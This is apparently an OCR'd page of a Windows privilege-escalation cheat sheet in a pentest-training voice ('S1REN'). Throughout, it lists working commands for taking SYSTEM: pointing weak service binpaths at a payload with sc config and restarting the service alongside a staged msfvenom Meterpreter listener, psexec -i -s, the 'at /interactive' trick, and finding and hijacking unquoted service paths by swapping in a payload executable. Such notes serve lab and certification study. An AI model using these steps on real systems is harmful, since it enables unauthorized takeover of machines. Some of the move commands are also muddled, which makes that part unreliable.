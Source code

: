   
+  **I enumerated a weak service path on the machine. How do I exploit this... S1REN?**  
sc config UPNPHOST binpath= "C:\Tools\sirenMaint.exe"  
sc config UPNPHOST obj= ".\LocalSystem" password= ""  
sc config SSDPSRV binpath= "C:\inetpub\siren\sirenMaint.exe"  
sc config SSDPSRV obj= ".\LocalSystem" password= ""  
sc config SSDPSRV start= "demand"  
(_Now, Stage matching msfvenom Payload Listener in Meterpreter_)  
net stop SSDPSRV  
net start SSDPSRV  
  
+  **Up to Vista...**  
psexec -i -s cmd.exe  
  
+  **On Windows XP and Older we can get an Administrator Privilege shell.**  

_**-->**_  IF you have a GUI with a USER THAT IS INCLUDED IN THE Administrators GROUP you first  
need to open up cmd.exe for the administrator. If you open up the cmd that is in  
Accessories it will be opened up as a normal user. And if you rightclick and do  
Run as Administrator you might need to know the Administrators password. Which  
you might not know. So instead you open up the cmd from C:\windows\system32\cmd.exe.  
This will give you a cmd with  _Administrators Rights_.

**-->**  _From here, we want SYSTEM level privileges, no?_  
**-->**  First we check what time it is on the local machine.  
time  
**-->**  Now we set the time we want the system CMD to start.  
**-->**  Probably one minuter after the time.  
at 01:23 /interactive cmd.exe  
**System Shell.**  
  
+  **Ahh, so you're interested in UNQUOTED SERVICE PATHS... eh?**  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\" |findstr /i /v """  
  
**-->**  Using SC:  
sc query  
sc qc <service name>  
  
_**-->**_  Okay S1REN, what am I looking for here?  
If the results of the above command's value of path only contains "" and spaces - it's vulnerable.  
  
_**-->**_  Have a hit?  
_**-->**_  Use icacls or cacls.exe (both native to Windows) to check binary permissions.  
icacls "C:\Program Files (x86)\UNQUOTED_SERVICE_PATH_SOFTWARE"  
  
_**-->**_  _Exploit it._  
_**-->**_  _If the path of the Binary file is:_  
C:\Program Files\something\something.exe  
_**-->**_  _Then,_  
move something.exe something.exe.BACK  
move sirenMaint.exe C:\Program Files\something\  
move sirenMaint.exe something.exe  
  
_**-->**_  Well, wasn't that fun? Now our payload will get executed instead of the intended exe!  
_**-->**_  _Nice._  
  